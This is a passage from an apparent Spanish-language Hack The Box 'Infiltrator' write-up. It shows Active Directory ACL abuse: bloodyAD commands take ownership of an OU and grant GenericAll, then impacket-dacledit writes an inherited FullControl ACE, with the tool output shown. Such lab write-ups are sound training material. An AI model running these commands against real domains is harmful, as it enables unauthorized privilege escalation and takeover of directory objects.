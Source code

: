 A través de la herramienta de `bloodyAD` nos convertimos en propietarios de la OU y nos otorgamos permisos de `genericAll` para tener control de la OU y de los objetos que se encuentren en esta.

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -k set owner 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'd.anderson'
[+] Old owner S-1-5-21-2606098828-3734741516-3625406802-512 is now replaced by d.anderson on OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB

❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -k add genericAll 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'd.anderson'
[+] d.anderson has now GenericAll on OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB
```

En un principio, deberíamos de disponer de control sobre los objetos que se encuentren en esta OU. Durante el proceso al tratar de modificar algún objeto que se encontraba en esta nos indicaba que no disponíamos de privilegios suficientes.

Realizando una búsqueda nos encontramos con el siguiente blog, el cual nos indica que para tener un control total sobre las Organizational Units (OUs) debíamos de modificar el siguiente DACL.

A través del primer comando, nos proporcionamos el control total de la OU y objetos que se encuentran en esta misma y mediante el segundo comando verificamos que el paso anterior se haya realizado  correctamente.

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-acl-ace/#organizational-units-acl" %}

```bash
❯ impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb'/'d.anderson' -k -no-pass -dc-ip 10.10.11.31 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250117-212533.bak
[*] DACL modified successfully!

❯ impacket-dacledit -action 'read' -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb'/'d.anderson' -k -no-pass -dc-ip 10.10.11.31 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Parsing DACL
[*] Printing parsed DACL
[*] Filtering results for SID (S-1-5-21-2606098828-3734741516-3625406802-1103)
[*]   ACE[6] info                
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : None
[*]     Access mask               : FullControl (0xf01ff)
[*]     Trustee (SID)             : D.anderson (S-1-5-21-2606098828-3734741516-3625406802-1103)
[*]   ACE[7] info                
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : CONTAINER_INHERIT_ACE, OBJECT_INHERIT_ACE
[*]     Access mask               : FullControl (0xf01ff)
[*]     Trustee (SID)             : D.anderson (S-1-5-21-2606098828-3734741516-3625406802-1103)
```
